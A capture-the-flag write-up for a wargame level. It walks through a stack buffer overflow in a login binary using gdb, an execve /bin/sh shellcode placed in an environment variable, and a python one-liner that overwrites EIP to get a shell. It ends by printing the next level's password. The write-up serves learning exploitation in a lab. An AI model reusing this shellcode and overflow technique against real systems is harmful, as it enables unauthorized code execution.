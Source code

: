 # Level01

This binary ask for a username that it will read from stdin. The input will then be sent to verify_user_name, I don't think it's necessary to explain its purpose. If the username is valid (dat_wil), it will then ask for a password from stdin, call veryfy_user_pass, and print "incorrect password" in any case. So finding the password will be of no use (but I did it nevertheless because I'm an idiot who doesn't read the source code, it's "admin").

Anyway, the initial guess was that we could overflow memcmp used in the verify functions. So the first step was to find which registers we could overflow, and the offset. Since the password was useless anyway, we figured out that we would try with this one first:

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    nope, incorrect password...


    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    (gdb) i r
    eax            0x1	1
    ecx            0xffffffff	-1
    edx            0xf7fd08b8	-134412104
    ebx            0x33634132	862142770
    esp            0xffffd710	0xffffd710
    ebp            0x63413563	0x63413563
    esi            0x0	0
    edi            0x41346341	1093952321
    eip            0x37634136	0x37634136  <-- offset 80
    eflags         0x10286	[ PF SF IF RF ]
    cs             0x23	35
    ss             0x2b	43
    ds             0x2b	43
    es             0x2b	43
    fs             0x0	0
    gs             0x63	99

Great, we can overflow EIP. So we can use our now favorite technique of passing a shellcode to an env variable, finding its address and passing it to EIP. The shellcode used here is the one I crafted for the level2 of the previous project [rainfall](https://github.com/SERAC-SGM/rainfall-42/tree/main/level02)

    level01@OverRide:~$ export PAYLOAD=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')

    (gdb) b main
    Breakpoint 1 at 0x80484d5
    (gdb) r
    Starting program: /home/users/level01/level01 

    Breakpoint 1, 0x080484d5 in main ()
    (gdb) x/500s $esp
    [...]
    0xffffdf3e:	 "SSH_CONNECTION=192.168.56.1 44688 192.168.56.103 4242"
    0xffffdf74:	 "LESSOPEN=| /usr/bin/lesspipe %s"
    0xffffdf94:	 "PAYLOAD=1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v̀"
    0xffffdfba:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
    0xffffdfdc:	 "/home/users/level01/level01"
    [...]

We get the address at 0xffffdf94. We need to remote the PAYLOAD= tho, so the real address used will be 0xffffdf9c.

    level01@OverRide:~$ (python -c  'print "dat_wil"'; python -c 'print "Y" * 80 + "\x9c\xdf\xff\xff"'; cat) | ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....

    Enter Password: 
    nope, incorrect password...

    id
    uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
    cd ../level02
    cat .pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
